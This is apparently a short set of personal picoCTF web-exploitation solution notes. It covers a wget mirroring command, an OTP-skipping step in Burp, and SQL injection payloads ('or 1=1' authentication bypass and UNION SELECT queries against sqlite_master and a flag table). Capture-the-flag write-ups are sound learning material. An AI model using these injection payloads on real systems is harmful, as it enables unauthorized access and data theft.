


## Web Exploitation

### inspect
  - wget -m -p -E -k -K -np HOST_URL

### picoCTF 2024
#### IntroToBurp
> fill "Registration" and in next step don't send "OPT" and [DONE].

### picoCTF 2023
#### More SQLi
> just inject `' or 1=1;--` in password field.
 
> list all of tables with this query : `SomeThings' UNION SELECT name, sql, null from sqlite_master;--`

 
> in `more_table` table `flag` cloumn is exist, so we trying to "select flag from more_table" with this query : `SomeThings' UNION SELECT id, flag, 3 from more_table;--` and [DONE].

